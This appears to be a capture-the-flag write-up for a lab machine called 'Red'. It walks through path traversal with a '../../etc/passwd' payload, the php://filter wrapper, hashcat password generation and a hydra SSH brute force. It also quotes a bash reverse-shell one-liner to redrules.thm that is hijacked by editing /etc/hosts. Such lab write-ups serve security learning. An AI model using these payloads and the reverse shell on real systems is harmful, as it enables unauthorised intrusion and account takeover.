


## *Enumeration*
>	- Doing basic nmap on the machine to view the open ports, their services and the vulnerabilities.
>	- Searching for hidden files using `gobuster`.
>	- Nothing useful found, viewing the website and searching manually.
>	- The parameter `?page=home.html` seems interesting, attempting to access `/etc/passwd` using curl with this parameter `?page=../../../../../../../../../etc/passwd`.
>	- Nothing is returned.
>	- Trying the `php://filter/` wrapper.
>	- Trying to view the `.bash_history` for the red and blue users.
>	- From the description of the room, Red uses a template for passwords, hence the `base64.rule` file.
>	- As the `passlist.txt` file gets removed at the end, try to view the `.reminder` file.
## *Gaining Access*
>	- Now recreating the process to create a password list using `hashcat`.
>	- Now using the generated passwords list to brute force the SSH login using `hydra -l blue -P passlist.txt 10.10.122.203 ssh`.
>	- Accessing the machine using ssh.
## *Enumeration v2*
>	- First flag can be found.
>	- The implemented security controls keeps terminating the ssh connection, so have to rerun the `hydra` command to get the new password.
>	- After accessing the machine again, the next step is to privilege escalate.
>	- Transferring `LinEnum.sh` to the target using a simple `http` python server.
>	- No access to bash, from one of the messages sent on the machine, hinted to using `pspy`.
>	- Transferring `pspy`.
>	- Changing the permissions and running the file.
>	- The `bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &` seems like a backdoor for privileged users, but the `redrules.thm` indicates an entry in the `/etc/hosts` file.
>	- Checking the `/etc/hosts` file.
>	- Appending our own machine to the hosts file. 
>	- Using the backdoor to gain access.
>	- 